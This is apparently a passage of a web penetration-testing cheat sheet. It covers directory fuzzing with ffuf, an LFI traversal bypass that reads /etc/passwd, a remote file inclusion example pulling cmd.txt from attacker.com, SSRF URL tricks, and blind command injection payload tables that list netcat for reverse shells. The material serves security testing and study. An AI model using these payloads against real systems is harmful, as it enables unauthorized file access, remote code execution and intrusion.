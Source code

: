 ``` ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP:PORT>/FUZZ```

   * bypassing php filter for LFI
      * You may be able to bypass by adding extra chars:
      ```....//....//....//....//....//etc/passwd```

* **RFI - Remote File Inclusion**
   * First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.com/index.php?lang=http://attacker.com/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.

## SSRF And Blind SSRF

#### Endpoint change
   * Try a different endpoint. For example if one endpoint is ```http://store.site/shop?url=http://api.store.site/api/stock/item?id=123``` attempt to SSRF by trying ```http://store.site/shop?url=http://api.store.site/api/user```

   * Try directory traversal. For example if one endpoint is ```http://store.site/shop?url=/item?id=123``` attempt to SSRF by trying ```http://store.site/shop?url=/../user```

   * Try subdomain manipulation. The payload can be modified to end in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string. Example, if the endpoint is ```http://store.site/stock?server=api&id=123``` attempt the manipulatoin by using ```http://store.site/stock?server=api.server.store/api/user&x=&id=123```

## Command Injection

### Blind injection
   * For this type of command injection, we will need to use payloads that will cause some time delay. For example, the ```ping``` and ```sleep``` commands are significant payloads to test with.
   * Useful payloads

   **Linux Payloads**
   | Payload | Description |
   | ------- | ----------- |
   | whoami | See what user the application is running under. |
   | ls | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
   | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
   | sleep | This is another useful payload in testing an application for blind command injection, where the machine does not have ping installed. |
   | nc | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |

   **Windows Payloads**
   | Payload | Description |
   | ------- | ----------- |
   | whoami | See what user the application is running under. |''
   | dir | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
   | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
   | timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the ping command is not installed. |

## Cross-site Scripting

```